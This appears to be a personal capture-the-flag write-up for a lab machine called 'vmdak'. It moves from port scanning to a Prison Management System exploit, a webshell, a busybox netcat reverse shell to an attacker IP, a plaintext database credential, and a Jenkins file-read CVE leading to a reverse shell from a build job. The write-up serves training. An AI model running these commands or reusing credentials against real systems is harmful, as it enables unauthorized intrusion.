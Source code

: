 # vmdak

i start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

The port 9443 says it's http but there is a SSL problem so we need to add the domain in etc hosts and request the website using https and then we see this:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

I look at some known exploits for this framework, click on admin dashboard and see this:

{% embed url="https://www.exploit-db.com/exploits/52017" %}

so i try it out:

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

and i manage to get in:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

the box is very laggy and i have to wait 5min + for one request so i will come back later

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Ok so after looking for fast5 exploit me saw that this was called Prison Management System so i looked up known exploits that could lead to code execution and saw this article:

{% embed url="https://sploitus.com/exploit?id=PACKETSTORM:179737" %}

So i go and create a new user:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

and i capture the post request:

<figure><img src="../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

and we got ourselves a webshell:

<figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

and we manage to get a reverse shell with a busybox nc command:

```
busybox nc 192.168.45.245 80 -e sh
```

I try plenty of privesc but don't find anything so i suppose i need to pivot to user vmdak and start looking for credentials and find something in the database folder:

<figure><img src="../../../.gitbook/assets/image (262).png" alt=""><figcaption></figcaption></figure>

```
root:sqlCr3ds3xp0seD
```

but it's not the password of root so i guess that i need to enumerate some sort of mysql service?

```
mysql -u root -p
```

and then we find this password:

<figure><img src="../../../.gitbook/assets/image (263).png" alt=""><figcaption><p>RonnyCache001</p></figcaption></figure>

The only user is vmdak and root so i'll try for those users:

<figure><img src="../../../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

So it's the password of user vmdak, nice

ran some linpeas and pspy and found nothing but this seemed interesting:

<figure><img src="../../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

Ok so since i have ssh access to user vmdak i can redirect the jenkins server on my local port :

```
ssh -L 9999:127.0.0.1:8080 vmdak@192.168.212.103
```

So if i visit my [http://127.0.0.1:9999](http://127.0.0.1:9999) i'll see the jenkins server:

<figure><img src="../../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

So i tried accessing this CLI but failed so i looked at some file read vulns for jenkins:&#x20;

{% embed url="https://medium.verylazytech.com/cve-2024-23897-jenkins-file-read-vulnerability-poc-6a1dfdbfd6f2" %}

<figure><img src="../../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

and i manage to connect:&#x20;

<figure><img src="../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins" %}

So i create a random job that executes a reverse shell once it's build:

<figure><img src="../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

i save and build and get my shell:

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

